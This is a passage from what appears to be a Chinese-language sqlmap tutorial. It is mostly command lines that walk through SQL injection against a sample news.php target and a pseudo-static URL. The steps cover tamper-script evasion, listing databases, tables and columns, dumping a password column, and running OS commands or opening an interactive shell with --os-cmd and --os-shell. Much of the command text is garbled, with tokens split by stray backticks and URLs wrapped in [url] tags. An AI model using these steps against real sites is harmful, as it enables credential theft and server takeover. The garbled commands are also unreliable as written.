 space2morehash.py中可以替换space2hash.py或者base64encode.py或者charencode.py

都是编码方式

space2hash.py base64encode.py charencode.py

### 九、SQLMAP查看权限


`sqlmap` `-``u [``url``]http``:``/``/``192.1``68.1``59.1``/``news.php?``id``=``1``[``/``url``]` `--privileges`

### 十、SQLMAP伪静态注入(1) 查找数据库-

`python sqlmap.py` `-``u` `"[http://xxx.cn/index.php/Index/view/id/40.html](http://xxx.cn/index.php/Index/view/id/40.html)"` `--dbs`

(2) 通过1中的数据库查找对应的表 (假如通过1，得到的是dataname)-

`python sqlmap.py` `-``u` `"[http://xxx.cn/index.php/Index/view/id/40.html](http://xxx.cn/index.php/Index/view/id/40.html)"` `-``D dataname` `--tables`

(3) 通过2中的数据表得到字段(假如得到的是tablename表)-

1

2

`python sqlmap.py` `-``u` `"[http://xxx.cn/index.php/Index/view/id/40.html](http://xxx.cn/index.php/Index/view/id/40.html)"` `-``D dataname` `-``T`

`tablename` `--columns`

(4) 通过3得到字段值(假如从3中得到字段id，password)-

`python sqlmap.py` `-``u` `"[http://xxx.cn/index.php/Index/view/id/40.html](http://xxx.cn/index.php/Index/view/id/40.html)"` `-``D dataname` `-``T`

`tablename` `-``C` `"password"` `--dump`

### 十一、SQLMAP注入点执行命令与交互写shell

(1) 注入点：[http://192.168.159.1/news.php?id=1](http://192.168.159.1/news.php?id=1)

此处采用的是Linux系统

`sqlmap` `-``u [``url``]http``:``/``/``192.1``68.1``59.1``/``news.php?``id``=``1``[``/``url``]` `--os-cmd=ipconfig`

出现语言的选择根据实际的测试网站选择语言

指定目标站点D:/www/

(2) 获取Shell


`sqlmap` `-``u [``url``]http``:``/``/``192.1``68.1``59.1``/``news.php?``id``=``1``[``/``url``]` `--os-shell`

-
出现语言的选择根据实际的测试网站选择语言
